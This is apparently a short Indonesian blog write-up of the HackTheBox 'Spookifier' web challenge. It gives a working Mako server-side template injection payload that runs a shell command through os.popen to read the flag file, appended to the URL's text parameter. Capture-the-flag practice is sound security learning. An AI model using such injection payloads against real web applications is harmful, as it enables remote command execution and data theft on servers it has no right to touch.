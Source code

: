 ```yaml
---
title: "HackTheBox - Spookifier"
date: 2023-12-29 18:34:00 +0700
categories: [HackTheBox, Challenges]
tags: [very easy, web]
image:
    path: /assets/img/hackthebox/challenges/web/spookifier.png
    alt: Lame - HackTheBox
---
```


**Spookfier** ialah salah satu tantangan kategori web dari situs HackTheBox, Gunship ini sebenarnya tantangan lama tapi karena saya belum coba, jadi saya kerjakan aja. Ini perjalanan/panduan saya. Oh iya, disini kita akan mempelajari tentang exploit, SSTI, dll.

## Introduction

- Munculkan mesin, hahaha....
- Dan download file-nya

## Enumeration

Pokoknya exploitnya [SSTI Mako](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako)

```bash
${self.module.runtime.util.os.popen("cat ../flag.txt").read()}
```

> tambahkan di belakang urlnya, habis text=
{: .prompt-info}